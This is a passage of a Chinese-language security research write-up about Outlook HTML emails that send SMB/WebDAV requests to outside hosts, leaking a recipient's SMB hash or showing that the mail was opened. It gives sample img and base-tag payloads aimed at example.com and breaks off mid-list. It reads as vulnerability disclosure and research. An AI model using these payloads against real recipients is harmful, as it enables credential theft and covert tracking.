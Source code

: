 在进行评估时，我收到了Outlook 2010中的一封HTML电子邮件，其中包含一个类似于以下内容的图像标记：

```
&lt;img src="//example.com/test/image.jpg" &gt;
```

我可以看到Outlook在打开该电子邮件后正在搜索某些内容，并且完全打开它比平时花费的时间更长。我很快意识到Outlook实际上使用URL“\ example.com test image.jpg”并发送SMB请求到“example.com”。

尽管即使提供的SMB路径有效，它也不会加载图片，但它可以将SMB HASH发送到任意位置。这种攻击在Outlook 2016上无效，但它使我开始了一个小型研究项目，尝通过使用不同的URI方案和特殊payload接受URI的不同HTML标记。

我设法通过设计一个使用ASPOSE.Email [4]和Microsoft Office Interop库的快速ASP.NET应用程序来测试具有不同目标的已知URI方案列表。具有较小变化的cure53 HTTPLeaks项目[5]用来生成电子邮件的HTML模板。本研究中使用的C＃代码，URI Schemes，公式和HTML模板可以在以下GitHub项目中找到：

```
https://github.com/nccgroup/OutlookLeakTest
```

为了减少复杂性，Sysinternals Suite的Wireshark和Process Monitor被用来检测远程和本地文件系统调用。



## 发现

Outlook在打开精心制作的HTML电子邮件时发送了外部SMB / WebDAV请求。 这可能会被滥用来劫持受害者的SMB hash或确定收件人是否查看过邮件。

此问题在Outlook默认设置阻止加载外部资源（如图像文件）可以利用。

**远程执行**<br>
尽管”\”模式被Outlook阻止，但仍发现许多其他模式和URI方案，这些模式和URI方案强制Outlook将请求发送到远程服务器。

下表显示了已知的矢量：

[![](https://p3.ssl.qhimg.com/t01c99c0c3304df5eab.png)](https://p3.ssl.qhimg.com/t01c99c0c3304df5eab.png)

**本地文件系统执行**

这种方式也可用于识别在本地文件系统上定位文件的URI方案。 这非常有趣，特别是当使用映射网络共享（具有写权限）时，或者在文件系统上可以删除文件时。 确定了以下URI方案：

[![](https://p4.ssl.qhimg.com/t013cdd3f59e2e32c4b.png)](https://p4.ssl.qhimg.com/t013cdd3f59e2e32c4b.png)

**一些payload 例子**

某些URI方案（远程/本地）仅在某些HTML代码中使用时才起作用。 虽然在测试过程中只发现以下payload有效，但这些payload不能被认为是唯一能够加载资源的payload。

**Image tag:**

```
&lt;img src="//example.com/anon/test.txt" &gt;
```

**Base tag + image tag:**

```
&lt;base href="//example.com/IDontExist/"&gt;
&lt;img&gt;
```

**Style tag:**
